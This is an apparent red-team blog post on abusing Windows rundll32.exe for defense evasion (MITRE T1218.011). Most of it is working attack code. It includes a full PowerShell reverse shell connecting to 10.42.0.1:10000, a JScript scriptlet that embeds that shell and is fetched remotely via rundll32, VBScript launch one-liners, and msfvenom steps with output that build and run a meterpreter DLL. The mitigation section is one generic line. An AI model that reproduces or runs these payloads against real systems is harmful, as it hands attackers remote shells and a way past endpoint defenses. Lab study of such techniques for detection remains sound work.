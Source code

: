 ```yaml
---
title: RUNDLL32
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: [redteam,defense-evasion, windows, mitre, rundll32]     # TAG names should always be lowercase
---
```


# MITRE
- ID : `T1218.011`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# RUNDLL32
***rundll32.exe*** Is a windows utility that Loads and runs 32-bit dynamic-link libraries (DLLs).Adversaries may abuse rundll32.exe to proxy execution of malicious code.

# Exploitations

## Command Prompt

### Execute VBscript To Invoke Calculator

***Execute the below commmand to invoke calculator***
```batch
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("calc.exe"),0)

```
*invoking calculator*
![vbscalc](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllcalc.png)

### Execute VBscript To Get Reverse Shell

To get a reverse shell, copy the below powershell script to your .ps1 file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, then execute the below command to get a reverse shell.

*reverse shell in powershell*
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.42.0.1',10000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Command

> `rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("powershell -w Hidden -file [path/to/your/file.ps1]"":"),0)`

*Executing rev.ps1 to get a reverse shell*
```batch
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("powershell -w Hidden -file rev.ps1"":"),0)

```
![vbsrevshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllvbsrevwin.png)

***Getting reversh shell***
![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllvbsrevkali.png)

### Execute Javascript To Get Reverse Shell

To get a reverse shell, copy the below script to your .sct file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, host .sct file on your server i.e `python3 -m http.server [port]` then execute the below command to get a reverse shell.

*content of exploit.sct*
```javascript

<?XML version="1.0"?>
<scriptlet>
  <!-- Reverse Shell -->

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

	function Exec()
	{
		var r = new ActiveXObject("WScript.Shell").Run('powershell -w Hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\'10.42.0.1\',10000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"');
	}

]]>
</script>

</scriptlet>

```
Command

> `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:[file_url]").Exec();`

*executing rundll32 to get reverse shell*
```bash
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://10.42.0.1/exploit.sct").Exec();

```

![rundll32win](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundlljsrevwin.png)

*getting reversh shell*

![rundll32](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllvbsrevkali.png)

## Metasploit 

### Generating .dll Exploit With Msfvenom

> `msfvenom -p windows/meterpreter/reverse_tcp lhost=[ip] lport=[port] -f dll -o [file_name.dll]`

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.42.0.1 lport=10000 -f dll -o exploit.dll
To use retry middleware with Faraday v2.0+, install `faraday-retry` gem
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of dll file: 8704 bytes
Saved as: exploit.dll

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
exploit.dll

```

### Getting Meterpreter Shell

*executing rundll32 in windows*

command

> `rundll32 shell32.dll,Control_RunDLL [dll_file_path]`

```batch
rundll32 shell32.dll,Control_RunDLL C:\Users\IEUser\Desktop\exploit.dll
```
![rundllmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmetawin.png)

*setting metasploit listener, getting reverse shell*

![rundllmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmeta.png)

# Mitigations

- Use capabilities to detect and block conditions that may lead to or be indicative of a software exploit occurring

# References

- [https://atomicredteam.io/defense-evasion/T1218.011/](https://atomicredteam.io/defense-evasion/T1218.011/)
- [https://attack.mitre.org/techniques/T1218/011/](https://attack.mitre.org/techniques/T1218/011/)
- [https://attack.mitre.org/mitigations/M1050/](https://attack.mitre.org/mitigations/M1050/)
- [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32)


